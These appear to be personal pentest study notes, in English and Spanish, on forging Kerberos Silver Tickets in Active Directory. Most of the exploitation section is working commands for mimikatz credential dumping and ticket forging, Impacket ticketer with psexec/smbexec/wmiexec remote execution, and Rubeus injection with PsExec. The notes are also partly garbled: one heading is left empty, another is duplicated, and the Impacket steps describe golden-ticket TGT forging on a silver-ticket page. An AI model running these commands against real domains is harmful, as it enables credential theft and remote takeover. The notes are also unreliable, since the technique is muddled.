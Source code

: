 

## DESCRIPTION

The Silver ticket attack is based on crafting a valid TGS for a service once the NTLM hash of service is owned (like the PC account hash). Thus, it is possible to gain access to that service by forging a custom TGS as any user.
In this case, the NTLM hash of a computer account (which is kind of a user account in AD) is owned. Hence, it is possible to craft a ticket in order to get into that machine with administrator privileges through the SMB service. The computer accounts reset their passwords every 30 days by default.


What's we need? →  service KEY
What's we obtain? → TGS


El Silver Ticket es similar al GoldenTickets, pero esta vez se construye un TGS y lo que se requiere es la clave del servicio al que se quiere acceder. Esta clave se deriva del hash NTLM de la cuenta propietaria del servicio. Esta técnica no funcionará si el servicio verifica el PAC, ya que al no conocer la clave de krbtgt, no es posible firmarlo correctamente.

Realmente necesitamos:

#### Mas información
* https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/silver-ticket
* https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/kerberos-silver-tickets


## EXPLOITATION

### OPTION 1: MIMIKATZ

1. Ejecutamos mimikatz

```
privilege::debug
sekurlsa::logonpasswords
```

![[Pasted image 20230525205916.png]]

2. Necesitaremo el SID del dominio que lo podemos sacar a partir del SID del usuario

![[Pasted image 20230525210059.png]]

3. Necesitamos un usuario para el que se falsificara el ticket

```
mimikatz # kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin
```

![[Pasted image 20230525210220.png]]

Para ver los tickets cargados en la memoria se puede utilizar

![[Pasted image 20230525210308.png]]

En este ejemplo podemos acceder a una web:

![[Pasted image 20230525212514.png]]

**!!NOTA IMPORTANTE!!** 
Enumerar SPN

```
Get-NetUser -SPN | select samaccountname,serviceprincipalname
```

### OPTION 2: IMPACKET

```
With Impacket examples:

# To generate the TGT with NTLM
python ticketer.py -nthash <krbtgt_ntlm_hash> -domain-sid <domain_sid> -domain <domain_name>  <user_name>

# To generate the TGT with AES key
python ticketer.py -aesKey <aes_key> -domain-sid <domain_sid> -domain <domain_name>  <user_name>

# Set the ticket for impacket use
export KRB5CCNAME=<TGS_ccache_file>

# Execute remote commands with any of the following by using the TGT
python psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python smbexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python wmiexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass

```

### OPTION 1: MIMIKATZ

```
Inject ticket with Rubeus:

.\Rubeus.exe ptt /ticket:<ticket_kirbi_file>
Execute a cmd in the remote machine with PsExec:

.\PsExec.exe -accepteula \\<remote_hostname> cmd
```



## MACHINES

* Hack The Box: 

